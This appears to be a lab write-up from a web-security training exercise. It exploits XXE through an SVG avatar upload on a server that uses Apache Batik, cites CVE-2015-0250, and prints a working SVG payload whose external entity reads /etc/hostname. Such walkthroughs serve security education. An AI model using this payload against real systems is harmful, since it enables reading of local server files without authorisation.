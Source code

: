 <div align='center'>

# **XXE Injection**

</div>

## **Lab:** Exploiting XXE via image file upload

**Goal:** Displays the contents of the /etc/hostname

**The lab provide:** The server uses Apache Batik library to process avatar image files.

1.  In the comment section, the website has the feature of uploading image file. We upload this [sample.svg](./Payload/sample.svg), the server accepts it. The server allow us to upload a .svg file which lead to potential XXE attack

![](./img/1.png)

2.  Since the server uses Apache Batik library, We find this vulnerbility [CVE-2015-0250](https://insinuator.net/2015/03/xxe-injection-in-apache-batik-library-cve-2015-0250/) relating to XXE. We apply this payload for our case

```svg
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]> 
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
Upload this file as [exploit.svg](./Payload/exploit.svg)

3.  Viewing the avatar, we get the content of the ``/etc/hostname` file. We have solved the lab

![](./img/2.png)